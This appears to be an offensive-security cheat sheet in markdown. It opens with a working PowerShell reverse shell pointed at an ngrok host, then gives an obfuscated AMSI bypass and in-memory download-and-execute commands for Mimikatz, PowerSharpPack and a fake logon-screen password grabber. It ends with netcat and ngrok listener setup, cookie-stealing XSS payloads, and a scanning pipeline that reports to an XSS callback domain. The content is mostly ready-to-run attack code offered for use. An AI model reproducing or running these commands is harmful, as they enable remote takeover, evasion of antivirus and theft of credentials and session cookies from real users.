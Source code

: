 # windows Rerverse shell
```php
$cthulhu = New-Object System.Net.Sockets.TCPClient('0.tcp.ngrok.io',19021 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + 'CF ' + (pwd).Path + '> '; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};

```
------------------------------------------------------

# AMSI BYPASS

```php
$forsec = 'System.Management.Automation.A';$yfd = 'si';$ted = 'Ut' + 'ils'
$astute = [Ref].Assembly.GEtTYpe(('{0}m{1}{2}' -f $forsec,$yfd,$ted))
$onlysecthings =$astute.Getfield(('am{0}InitFailed' -f $yfd),'NonPu' + 'blic' + ',St' + 'atic')
$onlysecthings.SetVALuE($null,$true)
```
------------------------------------------------------------

# invoke pattern to download into memory 
```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
```
# invoke important ps1 github

**MIMIKATZ**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```
**LOGIN SCREEN PASSWORD GRABBER**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-FakeLogonScreen.ps1')
```

-----------------------------------------------------------------------------------------------

    ngrok TCP PORT for rev listening 

    ngrok http for http service forwarding 


---------------------------------------------------------------------------------------------------

    ngrok tcp 1234
    nc -nvlp 1234

------------------------------------------------------------------------------------------------------

    tmate 

------------------------------------------------------------------------------------------------

# XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>

flkdflkjslkf"><img%20src=x%20onmouseover=confirm(1)>

<svg onload="javascript:window.onerror=confirm;throw 10">
    
<scr<h1>ipt>document.write("<img src=x onerror=confirm(1);>");</scr<h1>ipt>

<svg/onload=alert(1)>
    
```

#alert in window 

    Add-Type -AssemblyName PresentationCore,PresentationFramework

`for alert`

    [System.Windows.MessageBox]::Show($Messageboxbody,$MessageboxTitle,$ButtonType,$messageicon)

# 1linerXSS

    gospider -S subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox -b astutehacker.xss.ht pipe -o result3.txt
